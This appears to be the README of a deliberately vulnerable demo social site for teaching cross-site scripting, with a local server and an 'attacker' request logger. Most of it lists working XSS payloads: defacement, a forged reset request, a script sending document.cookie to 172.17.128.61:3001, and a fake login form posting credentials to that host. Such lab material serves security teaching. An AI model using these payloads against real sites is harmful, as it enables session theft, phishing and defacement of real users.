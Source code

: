 # Web security demo

A barebones social site vulnerable to XSS

## Usage

Start the service

```bash
node server.js
```

## Payloads

Try posting some malicious payloads, examples below. There is also a server that logs requests its given:

```bash
node attacker.js
```

Basic test XSS

```html
<script>alert('pwned')</script>
```

Deface page

```html
<script>document.getElementsByTagName('h1')[0].innerHTML = 'Stupidlook';document.body.style.background='#734a16'</script>
```

Act on behalf of user

```html
<script>fetch('http://localhost:3000/reset',{method:'POST'})</script>
```

Steal cookie

```html
<script>fetch('http://172.17.128.61:3001/?'+document.cookie)</script>
```

Phishing

```html
<script>if(!window.location.href.match('pwn'))document.body.innerHTML='<h1>Login</h1><form action=http://172.17.128.61:3001><input type="username" name="username" placeholder="Username"><br><input type="password" name="password" placeholder="Password"><br><p>Incorrect password</p><input type="submit" name="submit" value="Login"></form>'</script>
```
